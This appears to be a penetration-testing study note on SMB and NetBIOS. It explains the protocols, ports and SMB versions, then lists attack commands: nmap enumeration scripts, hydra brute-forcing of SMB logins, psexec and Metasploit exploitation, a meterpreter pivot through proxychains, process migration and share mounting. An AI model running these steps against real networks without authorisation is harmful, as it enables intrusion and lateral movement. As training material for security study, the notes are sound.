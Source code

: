 # 23 Networking Attacks

# SMB & NetBIOS Enumeration
Networking and file sharing

- While NetBIOS and SMB were once closely linked, modern networks rely primarily on SMB for file and printer sharing, often using DNS and other mechanisms for name resolution instead of NetBIOS.
- Modern implementations of Windows primarily use SMB and can work without NetBIOS, however, NetBIOS over TCP 139 is required for backward compatibility and are often enabled together.

### NetBIOS (Network Basic Input/Output)

- NetBIOS is an **API** and a **set of network protocols** for providing communication services **over a local network**. It's used primarily to allow applications on different computers to find and interact with each other on a network.
- Functions: NETBios offers three primary services:
	- Name Service (NetBIOS-NS): Allows computer to register, unregister, and resolve names in a local network.
	- Datagram Service (NetBIOS-DGM): Supports connectionless communication and broadcasting.
	- Session Service (NetBIOS-SSN): Supports connection-oriented communication for more reliable data transfers.
- Ports: NetBIOS typically uses ports 137 (Name Service), 138 (Datagram Service), and 139 (Session Service) over UDP and TCP.

### SMB (Server Message Block)

- SMB is a network file sharing protocol that allows computer on a network to share files, printers, and other resources. It is primary protocol used in Windows network for these purposes.
- Functions: SMB provides features for file and printer sharing, named pipes, and inter-process communication (IPC). It allows users to access files on remote computers as if they were local.
- Versions: SMB has several versions:
	- SMB 1.0: The original version, which had security vulnerabilities. It was used with older operating systems like Windows XP.
	- SMB 2.0/2.1: Introduced with Windows Vista/Windows Server 2008, offering improved performance and security.
	- SMB 3.0+: Introduced with Windows 8/Windows Server 2012, adding features like encryption, multichannel support, and improvements for virtualization.
- Ports: SMB generally uses **port 445** for direct SMB traffic (bypassing NetBIOS) and **port 139** when operating **with NetBIOS**.

```shell
smbclient -L <ip>

nbtscan # scan network for NetBIOS name information
nmblookup # NetBIOS over TCP/IP client used to lookup NetBIOS names
ls -la /usr/share/nmapo/scripts | grep -e "smb-*" # Find nmap script for smb
nmap --script nbstat.nse # Send NetBIOS Name Service request
nmap --script smb-protocols # SMB Versions
nmap --script smb-security-mode # SMB Security levels
nmap --script smb-enum-users.nse 

hydra -L <user_file> -P <pass_file> <ip> smb 

psexec.py user@ip
msf6: exploit(windows/smb/psexec)
	meterpreter: run autoroute -s <target-ip>/subnet
	background
cat /etc/proxychains4.conf
msf6: auxiliary(server/socks_proxy)
netstat -antp # Active Internet connections
proxychains nmap -sT -Pn -sV -p 445 <ip>
msf6: sessions <Id>
meterpreter: shell
	net view <ip>
meterpreter: migrate -N explorer.exe
meterpreter: shell
	net view <ip> # View Share on Windows system
	net use <letter>: \\<ip>\share # Mount shares
	dir <letter> 
```


